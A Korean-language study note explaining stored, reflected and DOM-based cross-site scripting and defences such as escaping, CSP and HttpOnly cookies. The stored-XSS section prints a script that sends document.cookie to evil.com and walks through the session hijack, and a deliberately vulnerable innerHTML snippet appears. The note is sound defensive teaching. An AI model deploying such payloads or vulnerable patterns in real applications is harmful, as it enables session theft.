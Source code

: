 # 🛡️ XSS (Cross-Site Scripting)

웹 애플리케이션 보안에서 가장 널리 알려진 공격 방식 중 하나로, 사용자의 입력을 검증 없이 DOM이나 HTML에 출력할 때 발생합니다.  

---

## 1️⃣ XSS란?

- **Cross-Site Scripting (XSS)** 는 악성 스크립트를 웹 페이지에 삽입하여, 사용자의 브라우저에서 실행되도록 하는 보안 취약점입니다.
- 세션 탈취, 피싱, 클릭재킹, UI 변조 등 다양한 공격으로 이어질 수 있습니다.

---

## 2️⃣ XSS 유형

### 1) 저장형 (Stored XSS)

- 공격자가 입력한 스크립트가 **서버 DB 등에 저장되어** 다른 사용자에게 노출
- 예: 게시판, 댓글, 프로필 등

```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>
```

#### 공격 흐름
1. 공격자가 이 코드를 댓글, 게시물, 사용자 소개란 등에 삽입
2. 해당 내용이 DB에 저장되고, 서버가 이를 HTML로 렌더링함
3. 다른 사용자가 페이지를 열었을 때, 이 <script>가 그 사람 브라우저에서 실행됨
4. 실행된 스크립트는 document.cookie 를 통해 현재 사용자의 세션 쿠키를 읽음
5. 읽은 쿠키를 `https://evil.com` 으로 전송
6. 공격자는 받은 쿠키를 자기 브라우저에 복사해서 로그인 세션 탈취 가능

---

### 2) 반사형 (Reflected XSS)

악성 스크립트가 요청(URL, 파라미터, 폼 등) 에 포함돼 있고, 서버가 그 값을 검증 없이 응답에 반영하면, 브라우저에서 바로 실행되는 공격

```
https://example.com?q=<script>alert(1)</script>
```

#### 공격 흐름
1. 공격자는 위와 같은 URL을 만들어서 이메일, 메시지, SNS 등에 공유
2. 사용자가 이 URL을 클릭해서 접속
3. 서버가 q 파라미터의 값을 검증 없이 HTML에 그대로 출력
```html
<h1>검색 결과: <script>alert(1)</script></h1>
```
4. 브라우저는 이 HTML을 받아서 렌더링 → <script>가 실행

---

### 3) DOM 기반 XSS

- 서버가 아닌, 클라이언트(브라우저)에서 실행 중인 JavaScript가 사용자 입력을 직접 DOM에 삽입하면서 발생하는 XSS
- 보통 innerHTML, document.write, eval, location.hash 같은 API가 제대로 필터링 없이 사용될 때 발생

```js
const search = location.hash.slice(1);
document.body.innerHTML = "검색어: " + search;
```

#### 공격 흐름
1. 사용자가 다음 URL로 접근:
```
https://example.com/#<img src=x onerror=alert(1)>
```
2. `location.hash.slice(1)` → `"<img src=x onerror=alert(1)>"` 문자열이 `search` 변수에 들어감
3. `document.body.innerHTML` 안에 그대로 넣으면서 브라우저가 이 HTML을 진짜 DOM으로 파싱
4. <img> 태그가 렌더링되고, 이미지를 찾을 수 없으므로 `onerror` 트리거 → `alert(1)` 실행됨

---

## 3️⃣ 공격 결과 예시

| 피해 | 설명 |
|------|------|
| 세션 탈취 | `document.cookie`를 전송하여 로그인 탈취 |
| 키로깅 | 사용자 입력값 수집 |
| 피싱 | 가짜 로그인 UI 삽입 |
| 페이지 조작 | DOM 조작으로 사용자 유도 |

---

## 4️⃣ 방어 방법

### 1) 출력 시 이스케이프 (Output Escaping)

- HTML, 속성, JS context에 따라 출력값 이스케이프 필요

```js
function escapeHTML(str) {
  return str.replace(/[&<>"']/g, (m) => ({
    "&": "&amp;", "<": "&lt;", ">": "&gt;",
    '"': "&quot;", "'": "&#039;"
  })[m]);
}
```

---

### 2) 입력 검증

- `<script>`, `on*`, `javascript:` 등 금지 패턴 필터링
- 가능한 경우 **화이트리스트 기반 허용**

---

### 3) DOM 조작 방식 변경

- `innerHTML` ❌ → `textContent`, `createElement` ✅

```js
element.textContent = userInput;
```

---

### 4) Content Security Policy (CSP)

- 인라인 스크립트, 외부 출처 스크립트 제한

```http
Content-Security-Policy: default-src 'self'; script-src 'self'
```

---

### 5) HttpOnly 쿠키 설정

- 쿠키를 JS에서 접근 불가능하게 하여 탈취 방지

```http
Set-Cookie: session=abc; HttpOnly; Secure
```

---

## 5️⃣ 프레임워크별 자동 방어

| 프레임워크 | 특징 |
|------------|------|
| React | JSX는 자동 escape 처리 (`<script>` 렌더링 불가) |
| Vue | Mustache(`{{ }}`) escape, `v-html` 사용 시 주의 |
| Angular | Strict Contextual Escaping + DomSanitizer |

---

## 🎯 정리

✔ XSS는 **입력 → 실행**이 연결되는 보안 이슈  
✔ **출력 시 이스케이프**가 핵심 방어  
✔ CSP, HttpOnly 쿠키, DOM 안전 API 사용으로 보안 강화  
✔ React/Vue 등은 기본적으로 방어하지만 `dangerouslySetInnerHTML`, `v-html` 등은 주의 필요
